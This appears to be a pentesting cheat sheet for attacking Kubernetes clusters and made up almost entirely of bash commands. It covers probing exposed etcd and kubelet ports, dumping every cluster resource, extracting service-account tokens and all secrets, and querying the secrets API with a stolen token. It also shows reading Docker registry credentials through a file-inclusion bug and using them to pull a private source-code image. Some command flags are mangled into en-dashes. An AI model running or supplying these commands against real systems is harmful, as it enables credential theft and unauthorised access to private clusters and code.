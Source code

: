 ### External Recon

```bash
# Find subdomains like k8s.target.tld
# Search for yaml files on GitHub
# Check etcdtcl exposed public 
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
# Check pods info disclosure on http://<external-IP>:10255/pods
```

#### Common open ports

![](<../../.gitbook/assets/image (50).png>)

#### Common endpoints

![](<../../.gitbook/assets/image (48).png>)

### Quick attacks

```bash
# Dump all
for res in $(kubectl api-resources -o name);do kubectl get "${res}" -A -o yaml > ${res}.yaml; done

# Check for anon access
curl -k https://<master_ip>:<port>
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
curl http://<external-IP>:10255/pods

#Dump tokens from inside the pod
kubectl exec -ti <pod> -n <namespace> cat /run/secrets/kubernetes.io/serviceaccount/token

#Dump all tokens from secrets
kubectl get secrets -A -o yaml | grep " token:" | sort | uniq > alltokens.txt

#Standard query for creds dump:
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/<namespace>/secrets/
# This also could works /api/v1/namespaces/kube-system/secrets/
```

### Attack Private Registry misconfiguration

```bash
# Web application deployed vulnerable to lfi
# Read configuration through LFI
cat /root/.docker/config.json
# Download this file to your host and configure in your system
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
# Pull the private registry image to get the backend source code
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
# Inspect and enumerate the image
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest
# Check for secrets inside container
ls -l /var/run/secrets/kubernetes.io/serviceaccount/
# Check environment vars
printenv
```

